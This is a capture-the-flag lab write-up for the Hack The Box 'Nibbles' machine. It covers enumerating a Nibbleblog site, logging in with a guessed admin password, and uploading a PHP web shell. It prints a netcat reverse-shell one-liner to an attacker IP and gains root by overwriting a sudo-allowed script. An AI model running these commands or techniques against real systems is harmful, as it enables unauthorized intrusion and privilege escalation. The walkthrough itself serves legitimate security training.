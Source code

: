 ```yaml
---
title: HTB-Nibbles
draft: false
tags:
  - htb
  - linux
  - easy
  - sudoers
  - web-shell
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/Nibbles.png)

## Information Gathering

Rustscan finds SSH and HTTP running on the target:

`rustscan --addresses 10.129.91.159 --range 1-65535`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-2.png)

`whatweb` shows Apache is running on HTTP:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-3.png)

## Enumeration
### HTTP - TCP 80

Website shows "Hello world!" message:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image.png)

`/nibbleblog/` path is exposed from the source code:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-1.png)

`/nibbleblog/` is a blog but has no posts yet:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-4.png)

`searchsploit` shows that nibbleblog is vulnerable to  SQL injection and Aribitrary file upload:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-5.png)

Using `feroxbuster` for directory bruteforcing, we see several interesting paths such as admin, admin.php, and content:

`sudo feroxbuster -u http://10.129.91.159/nibbleblog/ -n -x php /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 404`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-6.png)

Exploring around newly discovered file paths, `nibbleblog/content/private/config.xml` shows the username **admin**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-7.png)


`/admin.php` is a login page:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-8.png)

Trying the the password nibbles for the admin, we managed to successfully login:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-9.png)

## Shell as nibbler
### Web Shell upload

Going to Plugins, we can see installed plugins, inclusing **My image**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-10.png)

**my image** plugin provides feature for file upload. Let's try uploading **p0wny-shell.php**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-11.png)

`/nibbleblog/content/private/plugins/my_image/` shows that the php web shell was successfully uploaded:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-12.png)

Accessing image.php, we have the web shell as the nibbler:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-13.png)

In order to obtain a proper shell on terminal, we will lauch  the command below towards our local netcat listener:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.155 1337 >/tmp/f`

Now we have a shell as nibbler:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-14.png)


## Privesc: nibbler to root
### Sudoers

monitor.sh can be executed as the root without needing password:

`sudo -l`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-15.png)

Let's unzip personal.zip to access monitor.sh:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-16.png)

monitor.sh seems tobe a server health monitoring script from tecmint.com:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-17.png)

Looking at the permission, we can overwrite the file:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-18.png)

We will overwirte monitor.sh with bash command:

`echo "/bin/bash" > monitor.sh`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-19.png)


Before executing monitor.sh with sudo, we will spawn a interactive tty shell using python: `python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now executing overwritten monitor.sh file with sudo, we have the shell as the root:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-20.png)

## References
- https://github.com/dix0nym/CVE-2015-6967

